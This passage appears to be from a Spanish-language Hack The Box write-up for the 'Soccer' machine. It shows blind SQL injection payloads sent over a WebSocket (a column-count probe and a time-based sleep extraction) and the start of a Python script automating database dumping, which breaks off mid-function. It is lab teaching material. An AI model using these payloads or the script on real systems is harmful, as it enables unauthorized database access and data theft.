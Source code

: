 Devuelve `Ticket Exists`. Gracias a esto, nos damos cuenta de que estamos en frente de una **Blind SQLI**

Ahora nos queda descubrir la cantidad de columnas que tiene la tabla actual. Esto lo hacemos mediante un ordenamiento de las columnas, tenemos que ir probando con la cantidad hasta que nos devuelva `Ticket Exists`

```javascript
ws.send(JSON.stringify({
    "id": `"" or 1=1 order by 3 -- -`
}))
```
En este caso tiene 3 columnas

Ahora resta encontrar el nombre de la base de datos. Repetimos el proceso iterando por las el abecedario. En el momento que la response tarde 5 segundos, sabremos que la posición de la letra es la que estamos probando.

```javascript
ws.send(JSON.stringify({
    "id": `"" or 1=1 union select 1,2,if(LOWER(substr(database(),1,1) = 's'), sleep(5),0) -- -`
}))
```

En este caso la primer letra es la s
La base de datos es: **soccer_db**
****
## Scripting

Para que sea más fácil, creé dos scripts en python para obtener todas las bases de datos, junto con sus tablas, columnas y los datos de las mismas. Hice dos scripts porque hay dos formas de explotar este SQLI, uno es basándonos en el valor booleano que nos devuelve y el otro es basado en el tiempo, si tarda lo que le indicamos es porque ese valor es el correcto.

### **Timed based**
```python
import json, time, signal, sys
from websocket import create_connection
from pwn import *
import time

sqlValuesToFind = {"DatabasesName":"(select SCHEMA_NAME from information_schema.schemata where schema_name not in ('information_schema','performance_schema','mysql','sys') limit %d,1)",
"TablesName":"(select TABLE_NAME from information_schema.tables where table_schema = '{databaseName}' limit %d,1)",
"ColumnsName":"(select column_name from information_schema.columns where table_schema = '{databaseName}' and table_name = '{tableName}' limit %d,1)",
"ValuesTable":"(select concat_ws(',',{columnsName}) from {databaseName}.{tableName} limit %d,1)"}
values = {}
values["DatabasesName"] = []
values["TablesName"] = []
values["ColumnsName"] = []
values["ValuesTable"] = []
alphabet = ["a","b","c","d","e","f","g","h","i","j","k","l","m","n","o","p","q","r","s","t","u","v","w","x","y","z","A","B","C","D","E","F","G","H","I","J","K","L","M","N","O","P","Q","R","S","T","U","V","W","X","Y","Z","_",",","1","2","3","4","5","6","7","8","9","0","@","."]
valueToFind = ""
ws_server = "ws://soc-player.soccer.htb:9091"
ws = create_connection(ws_server)

def formatOne(s: str, field: str, value: str):
	idx_begin = s.find('{'+field+'}')
	idx_end = idx_begin + len(field) + 2
	return s[:idx_begin] + value + s[idx_end:]

def findCharacter(valueToFind, sqlValueToFind):
```